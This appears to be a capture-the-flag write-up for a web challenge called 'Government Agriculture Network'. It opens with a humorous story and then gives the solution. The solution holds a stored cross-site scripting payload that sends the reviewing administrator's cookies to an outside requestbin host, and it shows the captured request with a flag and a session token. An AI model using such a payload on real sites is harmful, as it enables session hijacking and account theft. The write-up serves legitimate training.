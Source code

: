# Government Agriculture Network

## Descrption

Well it seems someone can't keep their work life and their home life separate. You vaguely recall on your home planet,
posters put up everywhere that said "Loose Zips sink large commercial properties with a responsibility to the
shareholders." You wonder if there is a similar concept here.

Using the credentials to access this so-called Agricultural network, you realize that SarahH was just hired as a vendor
or contract worker and given access that was equivalent. You can only assume that Vendor/Contractor is the highest
possible rank bestowed upon only the most revered and well regarded individuals of the land and expect information and
access to flow like the Xenovian acid streams you used to bathe in as a child.

The portal picture displays that small very attractive individual whom you instantly form a bond with, despite not
knowing. You must meet this entity! Converse and convince them you're meant to be! After a brief amount of time the
picture shifts into a biped presumably ingesting this creature! HOW DARE THEY. You have to save them, you have to stop
this from happening. Get more information about this Gubberment thing and stop this atrocity.

You need to get in closer to save them - you beat on the window, but you need access to the cauliflower's  host to
rescue it.

[https://govagriculture.web.ctfcompetition.com/](https://govagriculture.web.ctfcompetition.com/)

## Solution

On the Ministry of Agriculture site we create new posts which are reviewed by an administrator. From this we can guess
that we must steal their cookie. The following payload sends the cookies to our site:

```js
<script>
document.location='http://requestbin.net/r/18cbjfi1?c=' + document.cookie;
</script>
```

The requestbin showed the following request:

```
GET /r/18cbjfi1?c=flag=CTF{8aaa2f34b392b415601804c2f5f0f24e}; session=HWSuwX8784CmkQC1Vv0BXETjyXMtNQrV
```

Therefore the flag was `CTF{8aaa2f34b392b415601804c2f5f0f24e}`
